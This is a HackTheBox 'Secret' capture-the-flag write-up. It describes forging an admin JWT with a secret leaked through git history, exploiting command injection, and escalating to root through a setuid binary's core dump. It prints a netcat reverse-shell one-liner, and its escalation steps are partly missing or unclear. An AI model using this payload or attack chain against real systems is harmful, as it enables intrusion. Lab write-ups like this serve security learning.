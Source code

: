 ```yaml
---
title: Secret HackTheBox Writeup
tags: [writeup,rest,python,hackthebox,linux,api,suid]
style: border
color: success
description: ""
---
```


![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Secret/1.png)

## Scanning
We run nmap on all ports with scripts and software versions.
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Secret/2.png)

## Enumeration
We find the API documentation, we have to authenticate using a *JWT*.
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Secret/3.png)

If we try to access without a token, we see that we do not have access to the resource.
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Secret/4.png)

If we check the site, there is a link that allows us to download the code.

To get to the point, the file "*private.js*" shows the role and username of the administrator user of the application.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Secret/5.png)

Using the authentication example from the documentation above, we see that the user "*theadmin*" is registered with the e-mail address "*root@dasith.works*":

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Secret/6.png)

We register a user.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Secret/7.png)

We decode the *JWT* and see the data it contains.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Secret/8.png)

We access the previous resource, but we still cannot access it because we are a user with a low privilege role.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Secret/9.png)

We continue with the enumeration, we identify a "*.git*" and we see that they have made some modification in the "*.env*" file.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Secret/10.png)

We retrieve the file and read its contents, we find the "*token_secret*". This token would allow us to modify our JWT and be able to make arbitrary modifications on it.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Secret/11.png)

We add the attribute *"role": "admin"* and change our user to "*theadmin*" in our cookie and authenticate, we check that now it works and we have access as the user "*theadmin*".

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Secret/12.png)


## Exploitation
Reviewing the sections of the site, we see that the resource "*logs?file=*" is vulnerable to **Command Injection**:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Secret/13.png)

We can exploit this vulnerability to read the "*user.txt*" file.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Secret/14.png)

We use the following payload to gain access (remember to encode it in URL), put a **netcat** listening and send the request from **Burp**.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Secret/15.png)

We list an uncommon setuid binary named "*/opt/count*". 

We see that the resource has the permissions of the root user.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Secret/16.png)

We launch **dirsearch**, we will list the file "*installer/subiquity-server-debug.log*", it contains the hashed credentials of the users used in the application.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Secret/17.png)

We tried to crack the hash of the user "*dasith*", but failed. So we will put our public key in the user's "*authorized_keys*" file and authenticate with our private key through the **SSH** service.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Secret/18.png)


## Privilege Escalation
Now we execute this statement to cause the crashes and to store in the report log the root flag.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Secret/19.png)

We check the "*CoreDump*" file and see that the root flag is in it.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Secret/20.png)




